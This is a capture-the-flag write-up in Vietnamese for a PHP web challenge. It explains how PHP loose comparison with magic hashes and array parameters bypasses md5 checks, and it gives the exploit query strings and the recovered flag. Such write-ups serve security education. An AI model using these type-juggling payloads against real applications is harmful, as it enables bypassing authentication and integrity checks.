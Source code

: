 # Piece Of Cake
> IP: http://103.245.249.76:49155


```php
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

### Strategy
- Đây cũng là một bài về PHP và tiếp tục khai thác [PHP Loose Comparsion](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) và [Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes).
- Bài cho 3 GET Parameter là `0`,`1`,`2`. 

- Với `$_GET[`0`]` thì khi so sánh `==`, hash md5 so sánh với chính nó, mình tìm được `0e215962017` và `0e291242476940776845150308577824`. Bạn có thể tham khảo thêm ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs).

```htm1
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
```
=> Mình có payload đầu tiên và tìm ra được phần đầu của flag `FPTUHACKING{StR1Ngs_`
`http://103.245.249.76:49155/?0=0e1137126905`

![image](https://user-images.githubusercontent.com/93731698/175820279-6ddefd10-83ba-405d-a35e-72732ec86ded.png)

- Tiếp theo, chúng ta có `$_GET['1']` và `$_GET['2']`.

```htm1
$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
```

- Mình thấy có 1 biến `$slat` concat (`$salt .`) trước các biến `$str2`, `$Str3` và đọc dòng lệnh `if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3))`, mình đã nghĩ ngay thử gán Parameter `1` = mã hash nào đó, Parameter `2` = mã hash nào đó vì dây là loose compare trong PHP như ở trên mình nói khi so sánh `==`. Nhưng mình đã thử 1 cách khác mình, 1 cho Parameter `1` vào 1 mảng và gán với một String random (`1[]=`), Parameter `2` tương tự => Bypass và ra phần còn lại của flag. 
- Giải thích nghĩ hơn về concat một String với Array, bạn có thể tham khảo ở [đây](https://jaimelightfoot.com/blog/b00t2root-ctf-easyphp/).
- Payload: `http://103.245.249.76:49155/?0=0e1137126905&1[]=2222&2[]=adasdsa`

### $Flag:

![image](https://user-images.githubusercontent.com/93731698/175820756-96a99dcf-41c1-4483-8bb7-4c261b38f12f.png)

Flag: `FPTUHACKING{StR1Ngs_c0nCaTeNaT1oN_1s_EaSy_!!!}`

# References: 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs, here will explain clearly `PHP Juggling type and magic hashes`.




